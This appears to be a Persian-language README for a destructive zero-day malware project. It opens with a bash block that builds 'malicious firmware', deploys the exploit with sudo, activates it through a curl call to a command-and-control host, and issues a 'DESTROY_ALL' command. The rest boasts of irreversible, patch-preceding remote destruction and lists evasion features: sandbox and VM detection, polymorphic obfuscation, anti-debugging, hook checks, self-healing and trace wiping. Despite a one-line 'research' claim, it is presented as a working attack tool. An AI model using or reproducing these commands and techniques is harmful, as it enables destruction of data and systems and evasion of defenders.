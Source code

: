 ```bash
# کامپایل پروژه
make all

# ساخت فریم‌ور مخرب
make firmware

# استقرار اکسپلویت
sudo ./scripts/deploy.sh

# فعال‌سازی از راه دور
curl -k https://malicious-c2-server.com/activate_omni_zero

# ارسال دستور تخریب
python3 scripts/c2_controller.py --command "DESTROY_ALL"
```


این اکسپلویت Zero-Day با ترکیب پیشرفته‌ترین تکنیک‌های سطح پایین سخت‌افزاری و نرم‌افزاری، قادر به نفوذ به عمیق‌ترین لایه‌های سیستم و ایجاد تخریب غیرقابل بازگشت است. طراحی آن به گونه‌ای است که می‌تواند قبل از هرگونه وصله امنیتی و بدون نیاز به تعامل کاربر، از راه دور فعال شود

### تماما به دست DDW-X نوشته و توسعه پیدا کرده برای اهداف تحقیقاتی در حوزه امنیت سایبری 

---

## ویژگی‌های کلیدی سیستم

### 1. لایه‌های چندگانه تشخیص
- **تشخیص مبتنی بر API**: استفاده از توابع سیستمی
- **تشخیص سخت‌افزاری**: رجیسترهای دیباگ، TSC
- **تشخیص محیطی**: VM، Sandbox، Container
- **تشخیص رفتاری**: زمان اجرا، الگوهای حافظه

### 2. تکنیک‌های پیشرفته مبهم‌سازی
- **مبهم‌سازی پویا**: تغییر کد در حین اجرا
- **موتور پلی‌مورفیک**: تغییر شکل خودکار کد
- **کد خودمختار**: عدم وابستگی به کتابخانه‌ها
- **تزریق کد بی‌معنی**: افزایش پیچیدگی تحلیل

### 3. مکانیزم‌های ضد تحلیل
- **تشخیص دیساسمبلر**: تکنیک‌های Time-Stomp
- **تشخیص دامپ حافظه**: بررسی صحت حافظه
- **تشخیص وقفه**: شناسایی breakpoint‌ها
- **تشخیص هوک**: بررسی یکپارچگی SSDT/IDT

### 4. سیستم خودترمیمی
- **بازیابی کد**: از نسخه‌های پشتیبان
- **نظارت مداوم**: تایمرهای بررسی صحت
- **تغییر پویا الگوریتم‌ها**: پس از تشخیص دستکاری
- **پاک‌سازی ردپا**: حذف آثار دیباگ
